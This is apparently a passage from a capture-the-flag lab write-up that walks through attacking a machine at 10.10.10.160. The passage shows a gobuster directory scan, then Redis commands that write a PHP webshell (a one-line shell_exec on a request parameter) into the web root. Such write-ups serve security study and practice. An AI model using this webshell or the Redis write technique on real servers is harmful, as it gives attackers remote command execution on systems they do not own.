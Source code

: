 ![web2](./postman/web2.png)

Website looks empty. Start a directory scanner looking for PHP files:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -r -q -z -o gobuster.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u http://10.10.10.160/ &
```

This returns a few interesting directories:

```
/images (Status: 200)
/upload (Status: 200)
/css (Status: 200)
/js (Status: 200)
/fonts (Status: 200)
```

_Now that a web directory is given_, try the redis exploit to upload a PHP webshell:

```
CONFIG SET dir /var/www/html/
CONFIG SET dbfilename bubba.php
SET PAYLOAD '<?php echo shell_exec($_REQUEST["c"]); ?>'
SAVE
```
